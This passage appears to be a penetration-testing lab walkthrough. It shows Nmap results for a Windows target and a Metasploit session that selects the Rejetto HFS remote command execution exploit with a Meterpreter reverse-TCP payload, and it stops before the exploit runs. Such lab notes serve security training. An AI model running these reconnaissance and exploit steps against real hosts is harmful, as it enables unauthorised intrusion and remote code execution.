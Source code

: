 ```
|   Target_Name: VICTIM
|   NetBIOS_Domain_Name: VICTIM
|   NetBIOS_Computer_Name: VICTIM
|   DNS_Domain_Name: victim
|   DNS_Computer_Name: victim
|   Product_Version: 6.3.9600
|_  System_Time: 2023-07-18T07:09:56+00:00
| ssl-cert: Subject: commonName=victim
| Not valid before: 2023-07-17T06:56:26
|_Not valid after:  2024-01-16T06:56:26
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49165/tcp open  unknown

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-07-18T07:09:58
|_  start_date: 2023-07-18T06:56:22

Nmap done: 1 IP address (1 host up) scanned in 86.10 seconds
```

[[metasploit]]

```
root@attackdefense:~# service postgresql start && msfconsole
Starting PostgreSQL 13 database server: main.
       =[ metasploit v6.0.21-dev                          ]
+ -- --=[ 2087 exploits - 1126 auxiliary - 354 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Use sessions -1 to interact with the 
last opened session

msf6 > setg rhosts 10.5.18.130
rhosts => 10.5.18.130
msf6 > search type:exploit name:rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

```